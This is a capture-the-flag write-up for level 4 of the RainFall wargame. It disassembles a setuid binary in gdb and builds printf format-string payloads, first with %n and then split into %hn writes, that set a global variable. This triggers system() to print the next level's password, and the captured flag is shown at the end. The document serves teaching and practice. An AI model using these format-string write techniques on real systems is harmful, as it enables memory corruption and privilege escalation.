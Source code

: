 # Level 4

- We login as user level4:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ gdb level4
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

- Let's identify the calls and jump by execution order:
```
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
```
>`0x8049804 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`
>buffer size is 0x200 bytes
>buffer starts at `-0x208(%ebp)`
>Prompt the user for up to 512 bytes.

```
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
```
>Call the `<p>` function with our buffer as parameter.

```
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
```
>The `<p>` function calls `<printf@plt>` with our buffer.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
```
>`0x8049810 <m>:  0x00000000`
>After the call to `<p>`, compare the value located at `0x8049810` avec with the hexadecimal constant 102 5544 (16 930 116 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we call `<system@plt>`.

```
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
```
>`0x8048590: "/bin/cat /home/user/level5/.pass"`
>Display our flag.


- So, we need to use `<printf@plt>` to assign the value 16930116 to `0x8049810`, we could do it like this
>`echo -ne '\x10\x98\x04\x08 %16930110x %12$n \n' | ./level4`


- It would work, but this time, let's break down this assignment of 4 bytes (`%n`) into two assignments of 2 bytes each (`%hn`). We need to write 16 930 116, which is 102 5544 in hexadecimal:
>Low order bytes = 5544 (21 828 in decimal)
>High order bytes = 0102 (258 in decimal)


- Instead of making an assignment at `0x8049810`, we will make one at `0x8049810` and another one at `0x8049812`. `0x8049810` will contain the bytes representing the most significant value (here, the low-order bytes), and `0x8049812` will contain the bytes representing the least significant value (here, the high-order bytes).
>`\x12\x98\x04\x08\x10\x98\x04\x08 %VALUE1x %12$hn %VALUE2x %13$hn`
>`VALUE1 (0x8049812)` ==> 258 - 8 bytes for the addresses - 2 bytes for the spaces = 248
>`VALUE2 (0x8049810)` ==> 21 828 - 258 - 2 bytes for the spaces = 21 568


- So:
```
echo -ne '\x12\x98\x04\x08\x10\x98\x04\x08 %248x %12$hn %21568x %13$hn' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```